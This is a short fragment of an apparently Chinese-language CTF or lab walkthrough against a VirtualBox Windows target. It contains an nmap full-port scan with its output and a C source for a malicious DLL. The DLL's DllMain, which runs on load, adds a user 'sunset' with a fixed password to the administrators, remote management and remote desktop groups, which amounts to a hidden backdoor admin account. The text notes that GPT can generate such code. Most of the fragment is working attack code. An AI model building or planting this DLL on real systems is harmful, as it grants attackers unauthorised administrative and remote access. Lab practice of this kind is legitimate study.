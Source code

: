 ```c
nmap -sT -min-rate 10000 -p- 192.168.56.8                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 02:05 EST
Warning: 192.168.56.8 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.56.8
Host is up (0.00052s latency).
Not shown: 65376 closed tcp ports (conn-refused), 148 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
MAC Address: 08:00:27:7A:85:C1 (Oracle VirtualBox virtual NIC)
```

用`C`语言写一个创建`windows`管理员用户的代码（来自作者的`WP`）也可以使用GPT生成

```c
#include <stdlib.h>

#include <windows.h>
 // COMPILE
// x86_64-w64-mingw32-gcc adduser.c --shared -o adduser.dll
BOOL APIENTRY DllMain(
  HANDLE hModule, // Handle to DLL module
  DWORD ul_reason_for_call, // Reason for calling function
  LPVOID lpReserved) // Reserved
{
  switch (ul_reason_for_call) {
	int i;
  case DLL_PROCESS_ATTACH: // A process is loading the DLL.
    i = system("net user sunset sunset /add");
    i = system("net localgroup administrators sunset /add");
    i = system("net localgroup 'remote management' sunset /add");
    i = system("net localgroup 'remote desktop' sunset /add");
    break;
  case DLL_THREAD_ATTACH: // A process is creating a new thread.
    break;
  case DLL_THREAD_DETACH: // A thread exits normally.
    break;
  case DLL_PROCESS_DETACH: // A process unloads the DLL.
    break;
  }
  return TRUE;
}
```
